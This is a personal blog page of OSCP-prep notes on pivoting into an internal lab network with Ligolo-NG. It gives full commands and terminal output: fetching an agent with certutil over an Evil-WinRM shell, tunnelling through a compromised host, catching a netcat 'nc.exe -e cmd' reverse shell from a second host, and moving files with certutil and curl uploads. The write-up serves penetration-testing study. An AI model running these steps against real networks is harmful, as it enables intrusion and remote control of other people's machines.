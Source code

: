 <h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">~/Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat blog/tunneling.md

[Kali] <----> [**Pivot Box/MS01**] <----> [Internal Boxes/MS02/DC01]

# Network Pivoting with Ligolo-NG:
In this video, Gonski Cyber shows how you can use Ligolo-NG to setup simple network pivots for use in your OSCP prep and use Ligolo's handy listener functionality to transfer files and receive reverse shell connections from machines on internal networks! 
- https://www.youtube.com/watch?v=DM1B8S80EvQ

I think by design. In order to get revshell connections and initiate file transfers from MS02 (when you are pivoting through MS01) it requires a reverse port forward. Ligolo-NG has great functionality that makes this really easy.

So if we find ourselves in a situation where we have a pivot setup to the internal network, but the internal machine can't send back a shell to our attack box, we can use ligolo's TCP listeners to get our shell back on our kali box!

Here's a excerpt from my notes on this.

We need:
- Ligolo proxy file for our kali machine
- Ligolo agent file for our pivot/jump host (download this to target)
-> Precompiled binaries (Windows/Linux/macOS) are available on the [Release page](https://github.com/nicocha30/ligolo-ng/releases).
use `tar xzg file.tar.gz`

```
# On Kali:
`sudo ip tuntap add user [your_username] mode tun ligolo`
`sudo ip link set ligolo up`
`sudo ./proxy -selfcert`
`Pythonserver`

# On MS01:
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
`certutil -urlcache -split -f http://kali:8000/agent.exe agent.exe`
`.\agent.exe -connect 192.168.45.154:11601 -ignore-cert`

    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

Made in France ♥ by @Nicocha30!

ligolo-ng » INFO[0338] Agent joined.                                 name="MS01\\Administrator@MS01" remote="192.168.235.147:65421"
ligolo-ng » `session`
? Specify a session : `1` - MS01\Administrator@MS01 - 192.168.235.147:65421
[Agent : MS01\Administrator@MS01] » `ifconfig`
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:ba:33:16              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.235.147/24             │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:ba:9d:50              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ `10.10.125.147/24`             │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘

# From Kali: `sudo ip route add 10.10.125.0/24 dev ligolo`

# Back in Proxy:
[Agent : MS01\Administrator@MS01] » `session`
? Specify a session : `1`- MS01\Administrator@MS01 - 192.168.235.147:65421
[Agent : MS01\Administrator@MS01] » `start`
[Agent : MS01\Administrator@MS01] » INFO[0780] Starting tunnel to MS01\Administrator@MS01

# Back in Kali (if this can resolve it's working):
`NetExec smb 10.10.125.0/24`
SMB         10.10.125.147   445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:oscp.demo) (signing:False) (SMBv1:False)
SMB         10.10.125.146   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:oscp.demo) (signing:True) (SMBv1:False)
SMB         10.10.125.148   445    MS02             [*] Windows 10.0 Build 19041 x64 (name:MS02) (domain:oscp.demo) (signing:False) (SMBv1:False)

From our kali, we can now also scan for the top ports using the following command:
nmap -sT --top-ports=100 -T4 -Pn -PE $IP

# Add listerener
# Back in Proxy
[Agent : MS01\Administrator@MS01] » listener_list
┌─────────────────────────────────────────────────────────────┐
│ Active listeners                                            │
├───┬───────┬────────────────────────┬────────────────────────┤
│ # │ AGENT │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼───────┼────────────────────────┼────────────────────────┤
└───┴───────┴────────────────────────┴────────────────────────┘
[Agent : MS01\Administrator@MS01] » `listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444`
INFO[1465] Listener created on remote agent!
[Agent : MS01\Administrator@MS01] » listener_list
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ MS01\Administrator@MS01 │ 0.0.0.0:1234           │ 127.0.0.1:4444         │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
(Any connection coming in on port 1234 on MS01 will be redirected to us on our localhost 4444)

Next, to have MS02 call back to us, we point any connection coming from MS02 to the MS01 `10.10.125.147/24` internal IP address and port `1234` 

# Example: 
# From MS02: `nc.exe 10.10.125.147 1234 -e cmd`
# On Kali: `rlwrap nc -lvnp 4444`
mithlonde@kali:~$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33684
Microsoft Windows [Version 10.0.19044.2251]
(c) Microsoft Corporation. All rights reserved.

c:\Users\Public>hostname
hostname
MS02

# Set up file transfer listener
# Back in Proxy
[Agent : MS01\Administrator@MS01] » listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
INFO[2426] Listener created on remote agent!            
[Agent : MS01\Administrator@MS01] » listener_list
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ MS01\Administrator@MS01 │ 0.0.0.0:1234           │ 127.0.0.1:4444         │
│ 1 │ MS01\Administrator@MS01 │ 0.0.0.0:1235           │ 127.0.0.1:80           │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
(Any connection coming in on port 1235 on MS01 will be redirected to our Python HTTP Server on our localhost on port 80)

# To summarize
Reverse shells: MS02 -> MS01 on 10.10.125.147:1234 -> Kali:4444
   -> `nc.exe 10.10.125.147 1234 -e cmd`
   -> `rlwrap nc -lnvp 4444`
File transfers: MS02 -> MS01 on 10.10.125.147:1235 -> Kali:80
   -> `python3 -m http.server 80`
   -> `certutil -urlcache -split -f http://10.10.125.147:1235/nc.exe nc.exe`
   -> `python3 -m uploadserver 80`
   -> `curl -X POST http://10.10.125.147:1235/upload -F 'files=@uploadtest.php'`
   
# Cleaning up
[Agent : MS01\Administrator@MS01] » stop
[Agent : MS01\Administrator@MS01] » INFO[8371] Closing tunnel to MS01\Administrator@MS01...
[Agent : MS01\Administrator@MS01] » listener_list
┌───────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                              │
├───┬─────────────────────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                   │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼─────────────────────────┼────────────────────────┼────────────────────────┤
│ 0 │ MS01\Administrator@MS01 │ 0.0.0.0:1234           │ 127.0.0.1:4444         │
│ 1 │ MS01\Administrator@MS01 │ 0.0.0.0:1235           │ 127.0.0.1:80           │
└───┴─────────────────────────┴────────────────────────┴────────────────────────┘
[Agent : MS01\Administrator@MS01] » listener_stop 1
INFO[8410] Listener closed.                             
[Agent : MS01\Administrator@MS01] » listener_stop 0
INFO[8412] Listener closed.
[Agent : MS01\Administrator@MS01] » listener_list
┌─────────────────────────────────────────────────────────────┐
│ Active listeners                                            │
├───┬───────┬────────────────────────┬────────────────────────┤
│ # │ AGENT │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼───────┼────────────────────────┼────────────────────────┤
└───┴───────┴────────────────────────┴────────────────────────┘
# From Kali:
sudo ip link set ligolo down
sudo ip tuntap delete mode tun ligolo
sudo ip route delete 10.10.125.0/24 dev ligolo
ip a && ip route
```
